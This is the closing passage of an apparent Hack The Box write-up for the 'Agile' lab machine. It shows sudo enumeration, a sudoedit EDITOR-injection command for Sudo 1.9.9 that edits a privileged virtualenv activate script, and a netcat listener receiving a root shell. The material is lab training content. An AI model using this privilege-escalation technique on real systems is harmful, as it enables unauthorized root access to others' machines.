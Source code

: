 Now mind you I'm using a chisel tunnel for all of this, I forgot to show the commands but look up tunneling with chisel there's a lot of good resources to help out there.

### Getting root 

Looking into the file system we do the basic 

```sh
edwards@agile:/$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
edwards@agile:/$ sudo -v
edwards@agile:/$ sudo -V
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

If we look up the sudo version we see its vulnerable to an exploit where I can edit files. Now the file I want to look up is the virtual environment that we are working in which is /app/venv/bin/activate and I can edit it using this command 
```sh
edwards@agile:~$ EDITOR='vim -- /app/venv/bin/activate' sudoedit -u dev_admin /app/config_test.json
sudoedit: --: Permission denied
2 files to edit
sudoedit: /app/config_test.json unchanged
edwards@agile:~$ 
```

```sh
┌──(stowner㉿kali)-[~/Desktop/HackTheBox/Agile]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.203] 56808
sh: 0: can't access tty; job control turned off
# whoami
root
```

And now we have root, I think I may have skipped a couple steps on the way of doing this machine but I hope you still got a good idea of how to do this machine. I have no idea who else would read my writeups if I'm being honest but on the offchance I ever share these and to whomever reads it I dont do these super in depth so you may have to fill in some blanks and I'm sorry but this is mostly to reinforce what I did and hopefully help me remember these in the long term LMAO

Fun machine and a lot of cool topics and ideas that I reall enjoyed doing.

Cest la  vie
